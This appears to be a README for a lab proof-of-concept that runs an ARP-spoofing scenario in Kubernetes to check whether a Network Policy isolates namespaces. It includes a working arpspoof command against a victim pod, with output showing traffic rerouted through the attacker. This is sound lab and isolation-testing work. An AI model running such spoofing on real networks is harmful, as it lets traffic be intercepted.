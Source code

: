 # Arpspoof proof-of-concept

This is intended to demonstrate how we can support the arpspoof example in
Workbench, but running in raw Kubernetes.

## Bootstrap
Bootstrap Kubernetes on an Ubuntu VM following the data8 kubeadm-bootstrap
instructions. We've forked it to modify the default network in
`init-master.bash`, changing from Flannel to Weave. Weave seems to support
Network Policy required for this project but is not as restrictive as Calico.

```
git clone https://github.com/cheese-hub/kubeadm-bootstrap
cd kubeadm-bootstrap
sudo ./install-kubeadm.bash
sudo -E ./init-master.bash
```

At this point, you should have a Kubernetes "cluster" running with Weave. 
	
```
$ kubectl get nodes
NAME          STATUS    ROLES     AGE       VERSION
hostname   Ready     master    1h        v1.9.2
```

```
$ kubectl get pods --all-namespaces 
NAMESPACE     NAME                                  READY     STATUS    RESTARTS   AGE
kube-system   etcd-xxxxxxx-dev                      1/1       Running   0          1h
kube-system   kube-apiserver-xxxxxxx-dev            1/1       Running   0          1h
kube-system   kube-controller-manager-xxxxxxx-dev   1/1       Running   0          1h
kube-system   kube-dns-6f4fd4bdf-lrp4f              3/3       Running   0          1h
kube-system   kube-proxy-w747d                      1/1       Running   0          1h
kube-system   kube-scheduler-xxxxxxx-dev            1/1       Running   0          1h
kube-system   weave-net-wjkwj                       2/2       Running   0
```

## Create the test namespaces
We're going to create two namespaces to deploy the `arpspoof` example
containers to test whether we can isolate network communications.

```
kubectl create ns test1
kubectl create ns test2
```

## Deploy the arpspoof pods
```
kubectl create -n test1 -f arpspoof
kubectl create -n test2 -f arpspoof
```

Wait for them to enter a `Running` state:
```
$ kubectl get pods -n test1 -o wide
NAME      READY     STATUS    RESTARTS   AGE       IP          NODE
hacker    1/1       Running   0          1h        10.32.0.3   hostname
server    1/1       Running   0          1h        10.32.0.4   hostname
victim    1/1       Running   0          1h        10.32.0.5   hostname

$ kubectl get pods -n test2 -o wide
NAME      READY     STATUS    RESTARTS   AGE       IP          NODE
hacker    1/1       Running   0          1h        10.32.0.7   hostname
server    1/1       Running   0          1h        10.32.0.6   hostname
victim    1/1       Running   0          1h        10.32.0.8   hostname
```

## Test the arpspoof scenario (via `exec`):

`exec` into the `victim` pod and run `traceroute` to `server`:
```
kubectl exec -it -n test1 victim bash
root@victim:~# traceroute 10.32.0.4
 1  10.32.0.4 (10.32.0.4)  0.109 ms  0.048 ms  0.044 ms
```

In a separate shell, `exec` into `hacker` pod and run `arpspoof`:
```
kubectl exec -it -n test1 hacker bash
root@hacker:/app# arpspoof -i eth0 -t 10.32.0.5 10.32.0.4
c2:e7:56:5d:18:bb 2a:c:5b:b6:52:1c 0806 42: arp reply 10.32.0.4 is-at c2:e7:56:5d:18:bb
c2:e7:56:5d:18:bb 2a:c:5b:b6:52:1c 0806 42: arp reply 10.32.0.4 is-at c2:e7:56:5d:18:bb
c2:e7:56:5d:18:bb 2a:c:5b:b6:52:1c 0806 42: arp reply 10.32.0.4 is-at c2:e7:56:5d:18:bb
```

In the `victim` shell, re-run the `traceroute`:
```
root@victim:~# traceroute 10.32.0.4
traceroute to 10.32.0.4 (10.32.0.4), 30 hops max, 60 byte packets
 1  10.32.0.3 (10.32.0.3)  0.170 ms  0.158 ms  0.098 ms
 2  10.32.0.4 (10.32.0.4)  0.123 ms  0.116 ms  0.133 ms
```

In the hacker shell, try to access the server pod running in the `test1` and
`test2` namespaces:

```
root@hacker:/app# curl 10.32.0.4
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://10.32.0.4/">here</a>.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 10.32.0.4 Port 80</address>
</body></html>

# curl 10.32.0.6
....
Nada
```

This is achieved by using the [arpspoof/network.yml] Network Policy. Note that
it appears to be possible to use simple labels to restrict both ingress and
egress on individual pods.



## See also
* http://try.cybersecurity.ieee.org/trycybsi/help/sslstrip
* http://try.cybersecurity.ieee.org/trycybsi/help/arpspoof
